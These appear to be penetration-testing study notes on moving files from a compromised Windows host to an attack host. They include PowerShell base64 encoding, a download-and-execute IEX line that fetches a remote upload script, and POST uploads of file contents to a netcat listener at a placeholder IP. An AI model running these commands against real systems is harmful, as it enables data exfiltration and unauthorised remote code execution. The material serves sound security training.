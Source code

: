 ----

#### PowerShell Base64 Encode & Decode
---
Encode a file using PowerShell
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\System32\drivers\etc\hosts" -Encoding byte))
```

```powershell
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

We copy this content and paste it into our attack host, use the `base64` command to decode it, and use the `md5sum` application to confirm the transfer happened correctly.

```bash
echo <base64-string> | base64 -d >hosts
```

```bash
md5sum hosts
```

#### PowerShell Web Uploads
---
PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

Install the webserver with upload capabilities
```bash
pip3 install uploadserver
```

```bash
python3 -m uploadserver
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```bash
Invoke-FileUpload -Uri http://<uploadserver-ip>:8080/upload -File C:\Windows\System32\drivers\etc\hosts
```

##### PowerShell Base64 Web Upload
---
Another way to use PowerShell and base64 encoded files for upload operations is by using `Invoke-WebRequest` or `Invoke-RestMethod` together with Netcat. We use Netcat to listen in on a port we specify and send the file as a `POST` request. Finally, we copy the output and use the base64 decode function to convert the base64 string into a file.

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://<NC-ip>:8000/ -Method POST -Body $b64
```

```bash
nc -lvnp 8000
```

```bash
echo <Base64-string> | base64 -d -w 0 > hosts
```